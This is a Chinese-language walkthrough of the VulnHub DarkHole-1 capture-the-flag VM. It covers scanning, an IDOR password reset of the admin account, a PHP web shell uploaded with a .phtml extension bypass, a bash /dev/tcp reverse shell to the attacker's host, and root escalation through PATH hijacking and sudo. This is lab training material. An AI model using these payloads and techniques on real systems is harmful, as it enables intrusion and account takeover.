# 目标

get **flags**

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap 192.168.64.0/24 -sn --max-rate 10000
```

靶机的IP地址是 `192.168.64.44`

## 1.2 端口扫描
**SYN扫描**
```shell
nmap 192.168.64.44 -sS -sV -Pn -p- --max-rate 10000
```


**TCP connection扫描**
```shell
nmap 192.168.64.44 -sT -sV -Pn -p- --max-rate 10000
```


**UDP扫描**
```shell
nmap 192.168.64.44 -sU -sV -Pn --top-ports 100 --max-rate 10000
```


**nmap默认脚本扫描**
```shell
nmap 192.168.64.44 -sV -sC -O -p 22,80,2 --max-rate 10000 -oA nmap-scan/default
```


**nmap漏洞脚本扫描**
```shell
nmap 192.168.64.44 -sV --script vuln -O -p 22,80,2 --max-rate 10000 -oA nmap-scan/vuln
```
有很多信息，后续有用的话就仔细看看。

## 1.3 22端口获取信息
```shell
nmap 192.168.64.44 -p 22 --script ssh-auth-methods.nse,ssh-hostkey.nse -sV
```

可以通过密钥/密码登陆。

## 1.4 80端口获取信息
### 1.4.1 访问`http://192.168.64.44`

检查一下是否是什么CMS, `whatweb http://192.168.64.44`


### 1.4.2 扫描网站目录/文件
```shell
gobuster dir --url http://192.168.64.44 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x zip,txt,php,html,jpg,png,sql
```


### 1.4.3 访问`http://192.168.64.44/upload`
里面有一张`d.jpg`图片，考虑有图片隐写，尝试一下，
```shell
steghide --extract -sf d.jpg
steghide info d.jpg
binwalk d.jpg
exiftool -b d.jpg
stegseek d.jpg /usr/share/wordlists/rockyou.txt
```
暂时没找到什么有用信息。

### 1.4.4 访问`http://192.168.64.44/config`
里面有一个`database.php`的文件. 下载下来可以发现是空的。

### 1.4.5 访问`http://192.168.64.44/dashboard.php`
显示 "Not Allowed To access"

---

# 2.建立系统立足点
反复的检查观察，可以发现有一个地方可以注册账号，那我就随便注册一个账号试试，

这样就登陆进来了。
观察url，可以很清楚的发现在我们前面应该有一个id=1的用户，而且很有可能就是管理员用户，然后再结合界面中有改密码的地方，我们可以考虑抓包，越界去修改id=1的用户密码：
```text
POST /dashboard.php?id=2 HTTP/1.1
Host: 192.168.64.44
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://192.168.64.44
Connection: keep-alive
Referer: http://192.168.64.44/dashboard.php?id=2
Cookie: PHPSESSID=kun5urdqr6ltog1earpart8674
Upgrade-Insecure-Requests: 1
Priority: u=0, i

password=1234&id=2
```
⬇️
```text
POST /dashboard.php?id=2 HTTP/1.1
Host: 192.168.64.44
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://192.168.64.44
Connection: keep-alive
Referer: http://192.168.64.44/dashboard.php?id=1
Cookie: PHPSESSID=kun5urdqr6ltog1earpart8674
Upgrade-Insecure-Requests: 1
Priority: u=0, i

password=1234&id=1
```
可以看到"Password Has been Updated"，说明密码改成功了，尝试去登陆管理员账号。管理员账号的名字可以通过注册界面去尝试，可以发现admin用户是已经注册的，`admin:1234`

出现一个文件上传点，可以尝试建立反弹连接。创建文件内容如下:
```php
<?php system($_GET['x']);?>
```
上传文件，

这个上传点限制了后缀名，要么是白名单、要么是黑名单，可以先试试黑名单。php文件有很多的等价后缀名，
```
.php
.php3
.php4
.php5
.php7
.phtml
.phar
```
尝试`shell.phtml`, 

这是直接上传成功了！
上面扫描出来有一个upload文件夹，上传的文件可能就在那个目录里面，尝试访问，

果然在这里面，现在开始建立反弹连接，
```shell
# kali本地监听1025端口
nc -lvnp 1025
```

浏览器访问`http://192.168.64.44/upload/shell.phtml?x=bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/192.168.64.2/1025%200>%261"`

成功建立反弹连接。

---

# 3.系统提权

```shell
find / -perm -4000 -type f 2>/dev/null
```
可以发现有一个`/home/john/toto`比较可疑，尝试运行一下这个程序，
```shell
/home/john/toto
## uid=1001(john) gid=33(www-data) groups=33(www-data)
```
输出的内容像是`id`命令，尝试去确认一下。

应该就是执行了`id`. 可以考虑路径劫持，
创建id可执行文件，内容如下，
```shell
#!/bin/bash
/bin/bash -p
```
更改PATH, `export PATH=/tmp:$PATH`
然后去执行`/home/john/toto`就可以了。

可以成功。读取一下user.txt，然后继续提权之路，

里面还有一个`password`文件，查看一下里面有: `root123`.
多次尝试之后，就可以知道这是john用户的密码，那就直接通过ssh登陆了`ssh -p 22 john@192.168.64.44`


```shell
sudo -l
```

可以以*root*权限运行`file.py`文件，`-rwxrwx--- 1 john john 1 Jul 17  2021 file.py`
这个文件我们还可以修改，内容如下：




---
---

# 💻 硬件与软件平台
## 硬件
- Apple Macbook pro `M1-Pro` `32G` `512G`
- macOS `14.8.5`

## 软件
- UTM version `4.7.5`

**kali**:
- IP: `192.168.64.2`
- OS Realease: `debian 2025.4`
- CPU Arch: `Arm64`
- CPU Cores: `4`

**Darkhole-1**: 
- website: `https://www.vulnhub.com/entry/darkhole-1,724/`
- IP: `192.168.64.44`
- CPU Arch: `x86_64`
- CPU Cores: `2`

---

> 水平有限，有不足、错误之处欢迎指出。🧐